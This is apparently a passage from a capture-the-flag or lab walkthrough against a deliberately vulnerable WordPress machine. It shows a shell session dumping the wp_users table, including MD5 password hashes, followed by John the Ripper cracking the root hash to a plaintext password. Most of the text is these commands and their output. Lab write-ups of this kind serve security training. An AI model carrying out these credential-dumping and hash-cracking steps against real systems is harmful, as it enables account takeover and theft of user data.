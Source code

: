 ```python
www-data@ubuntu:/var/www/html/wordpress$ mysql -u root -p -D wordpress -e 'SELECT * FROM wp_users;'
<ml/wordpress$ mysql -u root -p -D wordpress -e 'SELECT * FROM wp_users;'    
Enter password: rootpassword!

+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                        | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | root       | a318e4507e5a74604aafb45e4741edd3 | btrisk        | mdemir@btrisk.com |          | 2017-04-24 17:37:04 |                     |           0 | btrisk       |
|  2 | admin      | 21232f297a57a5a743894a0e4a801fc3 | admin         | ikaya@btrisk.com  |          | 2017-04-24 17:37:04 |                     |           4 | admin        |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
```
### Findings from User-table
```python
We find two users here: root and admin, and their passwords were hashed
root: a318e4507e5a74604aafb45e4741edd3
admin: 21232f297a57a5a743894a0e4a801fc3
```

## Password hash Cracking for root user
```python
1. first save the hash in afile called hash
2. Then use john to crack the password by the following command
3.Command: john --format=raw-MD5 hash
```
```python
──(dx㉿kali)-[~]
└─$ john --format=raw-MD5 hash                            
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
roottoor         (?)     
1g 0:00:01:08 DONE 3/3 (2022-09-05 02:14) 0.01469g/s 50033Kp/s 50033Kc/s 50033KC/s roottim2..roott11e
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

```javascript
The password found for root is : roottoor 
```
